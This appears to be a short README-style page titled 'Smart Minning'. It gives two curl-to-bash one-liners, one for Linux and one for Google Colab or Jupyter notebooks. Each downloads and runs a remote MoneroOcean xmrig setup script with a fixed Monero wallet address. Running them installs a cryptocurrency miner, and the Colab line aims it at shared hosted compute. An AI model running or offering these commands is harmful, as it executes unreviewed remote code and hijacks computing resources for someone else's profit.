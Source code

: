 # `Smart Minning 🤓`
## `Linux`
```
curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un
```
## `Google Colab` Or `Jupyter Notebook`
```
! curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un
```
# `Only For Personal Use`
